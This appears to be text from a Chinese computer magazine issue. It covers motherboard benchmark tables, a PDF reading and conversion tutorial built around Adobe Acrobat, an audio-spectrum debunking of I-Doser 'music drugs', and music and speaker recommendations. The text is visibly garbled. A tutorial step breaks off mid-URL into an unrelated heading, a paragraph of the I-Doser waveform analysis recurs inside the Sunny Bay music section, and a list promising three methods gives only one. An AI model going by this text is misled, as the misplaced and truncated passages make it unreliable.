| 组件 | 配置 |
| ---- | ---- |
| CPU | 英特尔酷睿i7 870、英特尔酷睿i7 920 |
| 显卡 | 华硕ENGTX285 |
| 主板 | 英特尔DP55KG、英特尔DX58SO |
| 内存 | 金士顿HyperX DDR3 1800 1GB×2(KHX14400D3K2/2G) |
| 硬盘 | 西部数据 黑盘 1TB/32MB(WD1001FALS) |
| 电源 | 航嘉X7 |
| 显示器 | LG C243WTN |

##### 测试1: P55 vs X58

| 项目 | X58 | P55 |
| ---- | ---- | ---- |
| Overall | 5958 | 6574 |
| Memory | 4581 | 4469 |
| TV/Movie | 4530 | 4488 |
| Gaming | 13012 | 12650 |
| Music | 5209 | 5378 |
| Communications | 3517 | 5077 |
| Productivity | 7001 | 8578 |
| HDD | 8897 | 11308 |

非常让人惊奇的是P55的整体效能略超X58，不过考虑到i7 920的主频稍低，并且LGA 1156新平台的功能整合，测试结果也没有太超出意料之外。

##### 测试2: P55主板横向测试

| 测试项 | 技嘉 GA-P55-UD3R | 富士康 Inferno Katana | 精英 P55H-A |
| ---- | ---- | ---- | ---- |
| SuperPI | 13.21 | 13.255 | 13.432 |
| Fritz Chess Benchmark | 11298 | 11272 | 11204 |
| WinRAR | 4610 | 4588 | 4501 |
| Everest Memory BenchmarkRead | 11610 | 11550 | 11601 |
| Everest Memory BenchmarkWrite | 10719 | 10730 | 10720 |
| Everest Memory BenchmarkCopy | 12593 | 12660 | 12550 |
| Cinebench R10 CPU | 3628 | 3630 | 3559 |
| Cinebench R10 XCPU | 14509 | 14660 | 14450 |
| TMPEGEnc | 56 | 56 | 57 |
| 3DMark Vantage PerformanceCPU | 11549 | 11552 | 11532 |
| GTA4 | 64.8 | 64.8 | 64.9 |
| COD5 | 86.9 | 86.3 | 85.1 |
| Biohazard5 | 71.9 | 71.8 | 71.5 |
| FarCry2 | 76.9 | 75.9 | 75.8 |

采用同芯片组的产品性能极其相似，不过技嘉和富士康凭借优秀的设计还是夺得了多项的冠军。在稳定和超频性充斥着整个业界的时候，性能何尝又不是一种优势呢。

##### 测试3: 南桥(PCH)温度

根据Anandtech测试P55的南桥(PCH)功耗只有4.5瓦左右（也许你会问为什么65nm的芯片和130nm芯片的功耗相近？那是因为它们的工作电压相近），那么它的发热量如何呢？我们先来看看PCH的散热片。



从这里我们可以看出，南桥的温度基本可以忽略不计了，从此之后无论是超频还是机箱散热这块芯片再也不必关注了。

□策划/《电脑爱好者》编辑部
□监制/Alpha
□撰稿/握握你的手（北京）

## 嚣！风声很紧！16个PDF情报大泄露

中国移动手机报用户很倒霉——电影《风声》谜底提前被告知！
《电脑爱好者》读者很幸运——泄露版PDF秘技现在就能阅读！
十万火急！CFan编辑部第21期杂志还没有上市，排版的PDF文件已经流传到了网络上！这并不可怕，忠实的读者还是会购买CFan的，真正可怕的是美术总监关于PDF文件的阅读、排版、处理等秘技也不幸被泄露！鉴于情报已经泄露，我们决定也不再保密，毕竟PDF文件的各类秘籍也是大家需要的，就拿出来一起分享吧！精彩在“我”这里！

## 为什么这么多人用PDF？

通用性好：PDF文件的外观同原始文档无异，保留了原始文件的字体、图像、图形和布局，无论创建它时使用的是何种应用程序或平台。也就是说，如果你把一篇文章转成PDF后，读者无论在Unix还是Windows都可以正常阅读。
版权保护：PDF文件有密码保护，以防其他人在未经授权的情况下查看和更改文件，还可让经授权的审阅者使用直观的批注和编辑工具。
PDF文件是以PostScript语言图象模型为基础，无论在哪种打印机上都可保证精确、颜色准确的打印效果。PDF可以完整地再现原稿的每一个字符、颜色以及图像。正因如此，目前大部分报纸、杂志都是以PDF作为出版前的文件格式(当然,CFAN亦如此^_^)。
便于携带：与其他文档格式相比，生成PDF还会减小文件的体积，而且你可以根据自己的要求来精简文档的大小。

### 小提示：PDF本地阅读工具精彩推荐

★Adobe Acrobat Reader
这是官方提供的一个用于浏览PDF的免费软件，功能和兼容性都是最好的，不过缺点是体积大。一般而言，不推荐普通用户选用这款软件，除非需要用到高版本PDF功能或其他软件兼容性出现问题时。
下载地址：http://get.adobe.com/cn/reader
★Foxit Reader

中文名字叫“福昕阅读器”，是一款国产的免费PDF阅读器，装机必备工具之一，具有绿色安装、体积小、启动速度快以及中文支持好等优点。

下载地址：http://www.newhua.com/soft/36437.htm

★eXPert PDF Reader

这也是一个完全免费的PDF阅读器，支持更换皮肤，支持修改PDF文件，查看及启动运行速度。

下载地址：http://www.newhua.com/soft/45057.htm

## 实战：不装任何软件 搞定PDF阅读和分享

如果你只是偶尔使用PDF，不想安装专门的软件，或者你在一台公共的机器上，无法安装软件，那么在线应用轻松也能解决PDF的阅读需求。在线工具很多，最著名的莫过于“Google文档”编辑工具了。

-   第一步：在浏览器中输入http://docs.google.com打开“Google文档”，用你的Gmail账户登录到Google文档编辑页面（如果你还没有Gmail账户，那么就到http://mail.google.com免费创建一个）；第一次登录的界面语言可能是英文的，那么你可以点击网页右上角“Settings”，在打开页面的“General”选项中，将“Language”设置为简体中文即可。
-   第二步：在Google文档编辑页面中点击“上传”，点击“选择要上传的文件”并定位到你要阅读的PDF文件（注意，Google文档处理的PDF文件大小不能超过10MB），然后点击“开始上传”即可。
-   第三步：待文件上传完毕后返回编辑页面，在“所有文件”的窗口列表中打开刚才上传的文件，这样就可以阅读这个PDF了。你可以通过右上角的缩小和放大工具来帮助阅读，如果你的PDF有多页，Google文档会根据先后次序排列，选择你要浏览的页面。
-   第四步：文件上传完毕后，除了自己阅读外，你还可以把PDF文档发布出来，供其他人点击链接阅读。打开需要分享的PDF文件，在阅读界面上点击“共享”，在打开的下拉选项中选择“获取要共享的链接”，在弹出的窗口中勾选“允许任何人通过该链接进行查看”（如果你允许别人编辑该PDF，则勾选“允许他们进行编辑”），这样就可以得到一个共享URL链接，将链接记录下来并保存设置，然后把链接地址发给你的朋友即可。
-   第五步：当然了，除了阅读本地的PDF文件需要上传，如果要阅读网络上的PDF文件，那么直接打开http://docs.google.com/viewer，然后输入文件地址，你就可以在Google文档中查看该文件。

### 网络大补贴：

除了Google文档外，网络上还有很多其他可以直接在线阅读和编辑PDF工具网站，例如：

-   http://www.pdfme-not.com
-   https://www.pdffiller.com
-   http://view.safimurjadata.se
-   http://vectormagic.com

## 网上精美的PDF是如何制作出来的？

目前，网上已经能看到不少书籍、刊物的PDF版本，特别是一些价格昂贵的计算机书籍，网上下载回来看确实很超值。不过，这样做确实是侵犯了作者的著作权，对于作者是一种不公平。不过，我们还是很想知道，如此精美的《时尚》、《瑞丽》等杂志，是如何从排版文件，变成精美的PDF的呢？如果我们自己亲自操刀，怎么能制作出PDF呢？

实际上，PDF的制作流程与我们经常接触的Office文档或TXT文档不同。比如DOC文件的制作流程为“Microsoft Word→新建文件→输入内容→保存DOC文件”，而PDF的制作流程通常是先用别的软件编辑文档，保存为其他的文件格式，然后再输出或打印成为PDF文档。几乎所有用文档软件（如Microsoft Word）、图片处理软件（如Photoshop）、排版软件（如CorelDRAW、Adobe Illustrator、Adobe InDesign、Adobe PageMaker）所制作的文件最后都可以制作成PDF。

## 爆料：你知道一本杂志是如何被生产出来的吗？

第一步：生产。这一部分有很多种途径，一种是作者自己向编辑投稿，编辑初步审核后提交给主编，如果获得通过即可交付给美编进行下一步处理。不过这种投稿的成功率一般比较低，更多的时候是由编辑或作者策划一个选题，并由编辑提交选题；主编对选题进行审核，通过后编辑再向作者约稿；当作者完成后，编辑回收稿件并加工处理，再次提交给主编进行审核，确认之后才能交付给美编。

第二步：排版。相比之下，排版流程没有那么复杂，不同的杂志会根据自己需求进行不同的处理。

第三步：出版。一般而言，杂志的有两种出版印刷的方式：一种是菲林（即底片）印刷，一种是数码印刷。前一种方式和胶片相机的原理一样，它要求杂志在电脑上制作完成后所有的版面制作成菲林底片，然后印刷厂将菲林上的信息印到纸上。目前，这种印刷方式已经用得较少，取而代之的是数码印刷。顾名思义，数码印刷采用的是电子文档来进行印刷，当杂志排版完成之后，美编将会排版文件转换成为曲线（即将文字转换为图像），然后制作成为一个一个PDF文档，印刷厂拿着这些PDF就可以印刷了。

★实战：将排好的杂志做成PDF电子书

现在网络上有很多专门经营电子杂志的门户，比如龙源期刊网（www.qikan.com.cn）、读揽天下（http://www.dooland.com）等，我们可以在上面用比较优惠的价格购买并阅读到书摊上的杂志（当然也有咱们的《电脑爱好者》了），那么，你想知道一本原来纸面发行的杂志是如何制作成为电子杂志吗？实际上，在这些网站上你看到的杂志要么是PDF文档，要么就是由PDF转换而来的JPG图片文档，你知道是如何做成的么？

任务说明：假设一本杂志有120页（如果再加上封面、封二、封三、封底就有124页），杂志的大小规格为标准的16开本（即185mm宽×260mm长），由四个美编分别使用CorelDRAW、Adobe Illustrator、Adobe InDesign、Adobe PageMaker来排版，下面我们分别用不同排版软件做成PDF电子书。

方法说明：将排版软件排好的版面做成PDF有很多种方法，常见的有以下两种：

-   方法一：JPG图片法。首先将排好的版面做成图片，然后再将所有的图片合并成为一个PDF电子书。这种方法的通用性制作方法简单，缺点就是制作出来的PDF文件体积较大，而且工作量大（需要进行大量图片裁切工作）。此方法常用于非Adobe公司推出的排版软件，比如CorelDRAW。
-   方法二：直接输出PDF。首先在排版软件中将文档直接转换成为原始的PDF文件（如果无法直接输出则利用打印功能），然后再将单个PDF合并成为一本连续的电子书。如果需要图片格式的电子版，利用PDF编辑软件转换即可。

### 准备工作：

在下面的应用实战中，我们将涉及许多常用的商业软件，比如Office、Adobe Acrobat、Adobe Photoshop、Adobe Illustrator、Adobe InDesign、Adobe PageMaker以及CorelDRAW等，请大家自行安装。

其中，Adobe Acrobat对版本有一定的要求，至少采用Adobe Acrobat 7.0 Pro以后的版本（这里以Adobe Acrobat 9.0 Pro为例），否则将没有批量合并的功能，而且Adobe PDF打印机的功能也会弱很多。此外，在安装Adobe Acrobat的过程中要注意安装完成的PDF打印功能。

### 实战：16开的杂志如何制作电子书

在这里，我们将采用上述的第一种方法来制作PDF，那么，一个标准16开的杂志就需要将排好的版面做成一个个185mm宽×260mm长的JPG文件，方法和步骤如下：

-   第一步：输出图片（带出血位的图片）。在CorelDRAW中双击“选择工具”图标（快捷键为Ctrl+A）全选所有内容，然后选择“文件→输出”（快捷键为Ctrl+E），接着在弹出的窗口中将输出格式设置为JPG并单击“输出”，最后在弹出的窗口中设定输出图片的“色彩”的模式和“解析度”值即可。这样就可以输出一个376mm×266mm（即双页排版+3mm出血）的图片了。

> 小提示：
> ★彩色杂志的默认色彩为CMYK，黑白杂志则为灰度，如果对PDF质量要求不是很高，可以把CMYK改为RGB。解析度默认为300dpi。
>
> ★图片的dpi值越大图片质量越高，最后电子书体积也相应越大。假设120页标准大小的RGB色彩JPG，如果分辨率为300dpi，那么最后的PDF大小大约为90~100MB，如果采用200dpi，PDF则为50~70MB。

-   第二步：在PhotoShop中将图片裁切为标准大小。由于杂志排版的时候四边需要预留3mm的出血位，因此我们输出的jpg并不是标准大小，如果让电子版和杂志的大小一致，那么就要将每个页面都裁切成为185mm宽×260mm长的标准大小。在PhotoShop中利用裁切工具搭配参考线的组合功能即可（裁切方法不再赘述，请参考PhotoShop相关文章）。
-   第三步：将单个连续的JPG制作成连续的PDF电子书。将JPG文件制作成PDF文档其实很简单，只要运行Adobe Acrobat，然后使用Acrobat打开图片的功能即可。如何插入并将文件按页码顺序排列起来呢？方法如下：

> -   在Acrobat主界面中点击“合并”按钮，在下来菜单中选择“合并文件到单个PDF”，然后在打开的窗口中单击“添加文件→添加文件”，将个位数页码按照先后顺序添加到合并窗口中，接着点击“合并文件”，Acrobat就可以将这些页码组合成一个PDF了。
> -   同理，再次将所有十位数的页码按照10~99的顺序添加到合并窗口，与之前已经组合好的1~9页码按照先后次序组合起来，从而得到一个1~99顺序排列的PDF，如果还有百位数的页码，再次重复上述操作即可。

-   第四步：插入封面、封二、封三和封底。你可以参照批量合并的方法，当然，你也可以一个一个地插入。方法很简单，在Acrobat中利用Ctrl+Shift+I快捷键，一个一个地插入到之前的文件中即可。操作完成之后，一个完整的电子版本就诞生了。

> 小提示：
> 建议读者要熟练运用 Ctrl+Shift+ O、Ctrl+Shift+I、Ctrl+Shift+D以及Delete等功能按键以提高操作的效率，并且正确地理解插入的位置，比如插入到“最前”、“最后”还是第n页，是“之前”还是“之后”，否则杂志的顺序可能会出现问题。

## 来去自由 PDF 格式互换

目前，使用率最高的两种文档格式分别是Microsoft Word的DOC格式和Adobe Acrobat的PDF格式。一般情况下，本地编辑文稿或报告所采用的格式是DOC的，而PDF格式则广泛应用于网络分享，但两者由于所处的公司不同，出于商业目的，互相不能直接打开使用，因此，也就给我们广大的文件用户增添很大的麻烦。

### 实战：把Word论文转为PDF，别人休想随意修改

比如你有一篇论文，你希望别人给你意见，但是又不希望别人随便修改其中的文字，那么你可以这样做：

-   方法一：编辑文章当然用最熟悉的Word了，在里面输入文字并配好图片，然后用Acrobat PDF打印功能将DOC文档打印成为PDF。
-   方法二：如果你使用的是Word 2007，那么你可以到http://work.newhua.com/cfan/200921/save.rar下载一个将DOC另存为PDF和XPS的插件。安装完毕后，在Word2007的“另存为”选项中就会出现“PDF或XPS”选项。如果已经安装Acrobat PDF，在Word 2007的另存功能也可以直接保存为PDF。

### 实战：想改就改，PDF转DOC很easy！

如果你拿到了一篇用PDF制作的文章，里面有些文字你想摘录一下，那么你可以有以下三个方法来将其转成DOC：

-   方法一：在Adobe Acrobat中打开该PDF文档，然后“Ctrl+Shift+S”另存为DOC或RTF等可编辑的文档格式。

### 实战：文档转换专业户，PDF转DOC不难！

实际上，由于PDF和DOC的解码不同，在PDF下的回车符、换行符以及相关的图片格式无法直接转换为DOC文件。如果在Adobe Acrobat中将PDF格式另存为DOC并在Word中打开，你会发现文章的编排会有些错乱，问题怎么解决呢？

第一步：到http://www.ttdown.com/## 完美控制 Adobe Acrobat Pro 进阶

小提示：
PDF转换Word支持转换的文件极限大小为8MB，如果超出这个限度，Pdf2word会在邮件里面提示，并推荐一款可在PC客户端免费试用14天的转换软件。

## 实战：让PDF电子书动起来！

一般情况下，我们阅读电子书都是用鼠标或者键盘来控制翻页，而且翻页的效果比较单调，不过我们在许多在线的杂志阅读网站上发现阅读效果非常好，比如自动翻页、页面采用3D旋转或者像电影胶片一样轮播。实际上，我们用Adobe Acrobat Pro（9.0版本的新功能，旧的版本没有）就可以自己制作一个与众不同的PDF电子书，方法步骤如下：

- 第一步：制作一个PDF包。在Adobe Acrobat Pro中点击工具中“合并→组合PDF包”打开一个“包”编辑窗，将原先制作好的PDF源文件添加到窗口中（可以直接用鼠标拖曳，和在资源管理器的操作是一样的）。
- 第二步：设置PDF包的阅读效果。PDF源文件添加完成之后，在右侧的“基本布局”中选择“旋转”或“滑动行”效果，并且你可以在每一个PDF源文件的下方添加说明文字以帮助阅读。
- 第三步：设置PDF包的其他细节。打开右侧的“添加欢迎和标题”设置项，你可以为这个PDF电子书制作一个封面（可以是文字标题、图像，还可以是Flash），比如这是某一期的杂志，那么你可以用杂志的封面来做素材；打开“选择一种颜色方案”，你可以为电子书设置的一个你喜欢的背景色，在“指定文件详细信息”项中还可以设置每个PDF源文件的详细信息，以及阅读排列的次序（顺序还是倒序）。
- 第四步：输出PDF包。完成上述设置后，打开右侧“发布”选项，单击“保存”即可。

## 实战：用Adobe Acrobat Pro将PDF电子书批量转成JPG图片

为了让没有安装PDF阅读软件的电脑也可以阅读，我们可以将PDF转为JPG图片，并按照页码顺序标记，这样JPG版本的电子书在任何电脑上都是可以阅读的。以《电脑爱好者》为例，方法和步骤如下：

- 第一步：剔除非正文部分内容，也就是将封面、封二、封三、封底以及广告删除。首先复制一个PDF电子版副本并在Adobe Acrobat Pro中打开，然后用Ctrl+Shift+D热键将页面删除。
- 第二步：其他非正文内容剔除之后，杂志就只剩下120页的正文，这时用Ctrl+Shift+S打开“另存”窗口，将文件格式设置为JPG并按照杂志的期数命名一个页码（比如cfan_200920），点击“保存”，这样各个页面将会按照先后次序保存成为jpg文件（比如第一页就是“Cfan_200920_页面_001”，你可以利用批量命名的工具来简化命名）。
- 第三步：如果你希望使杂志的内容完整，你也可以将封面、封二、封三、封底以及广告等内容另存为JPG。

怎么样，当你用Adobe Acrobat Pro完美控制PDF之后，是不是觉得PDF更加好用，更为得心应手了呢？

小提示：
在PDF“包”支持子目录功能，比如一个200页的杂志，你把1~9页放在一个目录，10~99页放在一个目录，100页以上的放在另一新的目录，只要点击“创建新文件夹”按钮，分别新建一个包目录，然后把对应的页码拖曳进去就可以了。

策划/《电脑爱好者》编辑部
监制/Cornel
撰稿/金戈铁马

## 一切从音乐“毒品”说起

每个人都会有心情压抑、郁闷、落寞、幸福的时刻，怎样释放这样复杂的心情，每个人的选择也许不一样，有的人会选择出去跳热舞，一顿折腾之后自己也就发泄了；有人选择自己练书法，静静的也能发泄；有人选择喝酒，通过酒精麻醉自己；有人选择痛哭，随着眼泪的流淌自己也轻松了很多。如果喜欢音乐，真正的发泄方法就是音乐了。

## 音乐也能被称作毒品？

音乐毒品，英文名称I-Doser，盛传它主要通过与脑电波形成共鸣，使人进入幻觉状态而得到不同的感受和疗效。此种“毒品”近段时间在互联网上甚为流行，甚至有部分人声称对音乐“毒品”异常依赖，到了没有不行的地步。

## 音频毒品哪里来的？

这个称之为I-Doser的音频文件，最早源于意大利，目前借着过互联网迅速飞速地扩散。今年2月韩国某网站悄然出现了一些据称有特殊功效的音频文件，被冠以“抗抑郁”、“止痛”、“催眠”等名称。此网站并未标明音乐的作者、开发经历以及原理等等，算是吊足了大家的胃口。于是乎借助网民的好奇心和人云亦云的特点不断发展壮大，由起初的73种不断壮大演变为几百种（其中不乏个人制作的山寨产品）。

而仅仅一个月后的3月，韩国保健福祉家庭部建议广播通信委员会“在I-Doser被证明对身体无害之前，禁止登录相关网站和传播文件”。

由于韩方的出面禁止更加深了音乐“毒品”的神秘性，很多人自然的认为，既然被禁止那么必定有不可告人的作用。

## 音乐与情绪确有不可分割的联系

作为一门古老的艺术，音乐与人们内心的情感有着密切的关系。古人云：“乐者，心之动也。”也就是说，音乐融合着人们的各种情感与情绪体验。

音乐可以诱发许多种不同的情绪。用音乐来诱发情绪，还具有许多优势。一方面，音乐可以高强度地诱发情绪，而且音乐诱发出来的情绪，被誉为音乐本身的特性。如果有一天朋友推荐给你一首忧伤的音乐，那么当你听到时，你的情绪应该与朋友无异，也是忧伤……而另一方面，不愉快和愉快的情绪音乐都可以诱发。相比较图片和视频，音乐的影响要快速并且深刻。一个故事让人伤感或者开心要完整的情节，并且与细节的描写与时间的长短成正比，但音乐只需短短的几个旋律，多则几分钟，少则几秒即可。

## 揭开音乐“毒品”的面纱，科学的奇迹还是欺骗的工具？

从表面上看着音乐“毒品”的原理说明，让人觉得神秘不已；而从心理学家、精神科教授等人口中也不断的透露出音乐与情绪密不可分的联系。难道音乐“毒品”真的是开辟了一片神经、脑电波的新天地吗？

- ○我听了一首，不知道是什么名字，觉得很可怕，过了2天才从中解脱出来，哎……
- ○声纳刺激大脑，不一样的人有不一样的感受，我也听过，听了很爽，感觉浑身微微的麻痹感。不过这东西少听为妙……
- ○在听音乐毒品使整个大脑都是在震动的，很影响脑电波，而且每个人听的时候感觉都不一样。
- ◎试听了下，听的时间久了会有一种耳鸣般的感觉，好像听觉麻木了，这些音乐基本都一种音调，没有别人说的那么可怕，不会中毒的。
- ○大部分时间只能听到“嗡嗡”声，只是节奏长短不一，感觉忽近忽远，让人很不舒服。

## 是真是假，数据说话

以讹传讹是最可怕的，用事实来证明，数据分析才是可以相信的。虽然我们不是心理学的专家、精神科的大夫，但是我们可以利用电脑进行音频的分析。

在测试中我们使用了Adobe Audition 3.0这款专业级多轨音频编辑软件来进行分析。

（题外话：Adobe真是有钱，什么软件出名买什么，Audition的前身正是大名鼎鼎的CoolEdit。）

在测试之前我们先普及一些知识，这样下面的测试你看起来才不会像是看天书。测试主要分为3个项目：

- 项目一：整体波形。可以最快速地查看音频文件的节奏性、韵律性和响度（说白了就是音量）。
- 项目二：局部波形。取出最有特点的1~2个段落进行放大，判断声相、波的形式（录制还是软件生成）。

小知识：声相是什么？
声相就是你闭上眼睛听见发声的物体是在左侧还是右侧，其原理很简单，同一音频左右声道的响度（上面说到了说白了就是音量）差异可以直接影响到你判断其发声的位置。

- 项目三：频谱分析。常叫做FFT，可以对音频的响度、频率做综合性查看。

经过搜索我们找到几十个音乐“毒品”，以其中一个为例，进行测试。

### 项目一

可以诱发。相比较图片和视频，音乐的影响要快速并且深刻。一个故事让人伤感或者开心要完整的情节，并且与细节的描写与时间的长短成正比，但音乐只需短短的几个旋律，多则几分钟，少则几秒即可。



●从整个波形上我们可以看出，此音频文件比较规则，没有什么节奏和韵律，响度基本统一。从这个波形上我们基本可以把它排除出“音乐”的范围了，只能算是音频而已。

### 项目二



●取自音频文件的8分钟处，放大后我们发现，基本上可以看做是非常规律的波，并伴随不规则锯齿出现。结合主观听音，我们可以确定应该是本底“沙沙”的噪声与从头至尾单调的主旋律合成而形成的。简单的原理让人对它的身份更加怀疑。



◎取自音频文件的24分钟处(接近尾声)，放大后我们发现，这部分更加规律，标准的波，没有锯齿，因为其简单性，我们发现了让人觉得音乐‘毒品’神秘感十足的另外一个原因，就是声相的不断变化(简单来讲就是声音不停地在左右耳之间穿梭的感觉)。两个声道的音量不是统一的，而是左声道音量最大的时候，右声道声音最小。同样这里过于简单的原理，更加重了我们的怀疑。

### 项目三



◎频谱分析是分析此音频的重中之重，它以颜色的深浅来显示出响度的大小，从下至上为频率的分布。在这里我们可以看见靠下的一条明显的亮线条几乎贯穿整个音频文件，结合上面的波形分析，我们确定这条主线，基本就是一个固定频率的声音(如果用固定频率的声音来形容你产生不解，那么请拿起电话，里面传出的拨号音就是它了)。而剩下的暗色就是不规则的本底噪声，也就是我们听见音乐‘毒品’里的‘沙沙’噪声。

测试进行到这里，就可以告一段落了。测试结果很简单，此音频文件为不规则噪声和相位不停变换的固定频率声音的合成品，技术含量低到可怕，形象一点来形容就是没有信号的电视机声音加上电话拨号音(当然，你要拿着电话不停地左右摇摆，来模拟声相的变化)。试问这种东西，怎么就能和神经学，心理学，脑电波等等发声关系……

## 专家观点：粉碎毒品谎言

虽然我们在音频分析上证明了音乐‘毒品’低技术含量的山寨特征，但毕竟我们无法确定它对人会产生什么影响，这个还得各方面的专家说了算。

- 专家观点一：单方面从外部受到特定刺激时脑电波会改变的主张完全没有医学根据。
- 专家观点二：音乐‘毒品’是一种安慰剂效应。越是容易轻信别人的话而且敏感的人，越容易自我催眠。

### 小知识：安慰剂效应是什么？

安慰剂效应，又名伪药效应、假药效应(Placebo Effect)指病人虽然获得无效的治疗，但却“预料”或“相信”治疗有效，而让病患症状得到舒缓的现象。举个简单的例子，女朋友给你买了块手表，实际只有100元钱，但她告诉你这个是花了5000元买的，无论怎样你都会觉得这么贵的表一定是好表，这就是最简单的安慰剂效应。

## 用“真正的音乐”来舒缓情绪

音乐的美，是一种潜移默化的美，她可以渗透心灵深处。因此，音乐对于情绪和精神，具有极大的影响。缓慢低沉的乐声，会诱发我们心灵深处孤独恐惧悲伤的感觉，相反的，节奏鲜明、欢快流畅的音乐会带给我们明亮的心境。正确地选择音乐，可以很好地调节自己的情绪，抛开不快，抛开不满，抛开压抑，抛开愤怒，才能轻松的去享受生活。

## 精神压力大，我们一起摇滚吧

中国科学院心理研究所‘社会转型期不同职业群体主要社会应激源与心理健康研究’项目最新统计数据和结果上周整理完成。调查显示，20~30岁的人群成为各年龄段压力之首。一般经验认为，在职人员的压力感受随着年龄的增长而增长，年龄越大，需要处理的工作和家庭方面的事务越多，责任越重，压力也就越大。在寻找一种解脱、寻求一种宣泄的时候，一种节奏激烈、感情强劲的音乐——摇滚乐就应运而生了。

**推荐专辑：All The Right Reasons**
**艺术家：Nickelback**

### 风格介绍

风格介绍：Nickelback展示了他们的层层进逼的渲染功力，具有相当的冲击力，整齐划一干净利索，很闹的歌曲，却并不噪，拿出来作为新金属的一个体现最合适不过了。

### 专辑点评

专辑点评：说到Nickelback不免首先想到主唱Chad Kroeger的嗓子，它自然是不少人的最爱，通俗点概括就是爷们儿！那沙哑、粗砺的声线用来演唱他们绝大多数有着硬摇滚质地的歌曲，是再合适不过的了。

### 音乐分析

我们随机选择All The Right Reasons专辑中一首歌，对波形、片段放大和频谱进行分析，用来比较音乐“毒品”和其他不同类型的歌曲。

### 项目一



◎从波形图上来看，此首歌平均响度不小，虽起伏并不大，但也存在高潮和前奏的差异，对应上面节奏激烈、很闹但不噪的说法，我们可以判定，至少听着它睡觉是不行的。

### 项目二



◎取一段(1分56秒)其中进行分析，在波形上我们可以看出其响度变化(波峰与波谷的间距)非常快，整体节奏较快，韵律上也比较激烈，感情激进，对于宣泄精神压力来说此类音乐最为合适不过。

### 项目三



◎进行频谱分析的主要目的是为了下一步挑选适合的音频设备做一个铺垫，从频谱分析中我们可以看到亮色区域贯穿了整个重低音段，结合主观听音，我们确定此类音乐的亮点在于重低音段，而高音段虽然响度不小，但更重视韵律的摇滚乐对高音段的电子配乐依赖并不大。

## 情绪焦躁不堪，放轻松听听纯音乐

焦躁是欲望受到压抑形成的神经衰弱症的症状。这种类型的人通常过于认真，丁是丁，卯是卯，常杞人忧天，无论干什么事不干到底不罢休，对一点小事往往心存芥蒂，耿耿于怀。这种人的人际关系不佳，容易自我封闭起来，往往容易受他人的言行刺激。因此，在日常生活中容易紧张，承受精神疲劳之苦。其自我治疗很简单，做事前先订下计划，想象所做的事情能很顺利地进展。工作前要充分休息，工作时不拘小节，深思熟虑，积极行动。心情不舒畅时，进行体育活动直到出汗，然后心无所思地听听音乐、看看书，使心情愉快轻松起来。

### 音乐分析

我们随机选择Sunny Bay专辑中一首歌，对波形、片段放大和频谱进行分析，用来比较音乐“毒品”和其他不同类型的歌曲。

### 项目一



◎取自音频文件的24分钟处（接近尾声），放大后我们发现，这部分更加规律，标准的波，没有锯齿，因为其简单性，我们发现了让人觉得音乐“毒品”神秘感十足的另外一个原因，就是声相的不断变化（简单来讲就是声音不停地在左右耳之间穿梭的感觉）。两个声道的音量不是统一的，而是左声道音量最大的时候，右声道声音最小。同样这里过于简单的原理，更加重了我们的怀疑。

◎从波形图上来看，此首歌平均响度不大，起伏也不大，整首歌并无明显高潮，更像是一条缓缓的溪流，流水、雀鸟之声，能镇静人的情绪，松弛我们的身心，而且给人一种返回大自然的感觉。

### 项目二



◎取一段（1分56秒）其中进行分析，在波形上我们可以看出其响度变化（波峰与波谷的间距）比较频繁，但整体节奏并不快，韵律上也比较舒缓、轻快，当烦躁时听一听此类音乐可以很快让情绪平静下来。

### 项目三



◎从频谱分析中我们可以看到虽然亮色区域贯穿了整个重低音段，但细节部分主要集中在中高音段，结合主观听音，我们确定此类音乐的亮点在于中音与高音段。

## 缺乏灵感，来点新派爵士乐

创新大多起始于人大脑中产生的灵感，创新是人类想象力的产物，或者说灵感是创新的起点和原始，灵感还是创新的核心和灵魂。20世纪世界上最伟大的科学家爱因斯坦曾经说过：“想象力比知识更重要，因为知识是有限的，而想象概括着世界上的一切，推动着进步，并且是知识进化的源泉。”严格地说，想象力是科学研究中的实在因素。“它是一个人在对某一问题长期孜孜以求，冥思苦想之后，通过某一诱导物的启发，一种新的思路突然接通。当你缺乏灵感时，新派爵士乐也许会用简洁轻快的乐符激发你跳动的灵感。

### 音乐分析

我们随机选择美丽时光专辑中一首歌，对波形、片段放大和频谱进行分析，用来比较音乐“毒品”和其他不同类型的歌曲。

### 项目一



◎从波形图上来看，此首歌平均响度比纯音乐还要小，而起伏却比纯音乐要大一些，高潮和前奏比较明显。

### 项目二



◎取一段(1分43秒)其中进行分析，在波形上我们可以看出其响度变化(波峰与波谷的间距)非常慢，单响度幅度比较大，整体节奏比较慢，韵律上也比较恬静，有种闲暇的懒惰感。对于激发灵感，平静中带有些许灵动的歌声是非常有效的。

### 项目三

◎从频谱分析中我们可以看到亮色区域分布在低音和高音段，而变化较大的细节在中低音段，结合主观听音，我们确定此类音乐的亮点在于细节丰富的重低音交界处，歌手温暖的人声是此类歌曲的灵魂。

## 谁最适合播放摇滚乐 现代 HY-780

此款现代HY-780音箱采用了木质低音炮+塑料卫星箱的结构设计，音箱的表面并非采用了传统的平面设计，而是采用了棱角的面板，增强了视觉冲击力，美化了外观。另外，这款音箱还支持闪盘、SD卡的输入，实用性非常强，符合当前市场的主流趋势。

此款音箱的低音炮采用了5.25英寸PV膜单元，整体较为均衡，侧置倒相管在一定程度上弥补了5.25英寸单元低音下潜不是十分充足的劣势。不过，在大音量下此单元控制力较弱，低音增益过大时会有破音。

卫星箱内置了115×42mm高音单元，非正圆的振膜设计让此卫星音箱的指向性更强。在主观测试中其不错的人声回放性能让人刮目相看。而它同时负担着高音的解析，不过考虑到它的尺寸（不够小）在回放高音时略有力不从心也就可以原谅了。

| 项目 | 值 |
| --- | --- |
| 响频范围 (Hz) | 35~20k |
| 信噪比 (dB) | 65 |
| 扬声器单元 (inch) | 5.25+3×2 |
| 输出功率 (W) | 30+15×2 |

推荐理由：上面我们说到，摇滚乐重视的是韵律，而贯穿其中的重低音和中音不可或缺，高音表现不好对其影响并不大。HY-780凭借60W的输出功率和对重低音段良好的回放在此胜出。

推荐专辑：Sunny Bay (日光海岸)
艺术家：Bandari（班得瑞）
风格介绍：班得瑞闻名全球的独特之处莫过于班得瑞每当执行音乐制作时，从头到尾，深居在阿尔卑斯山林中，坚持不掺杂一丝一毫的人工混音，直到母带完成。

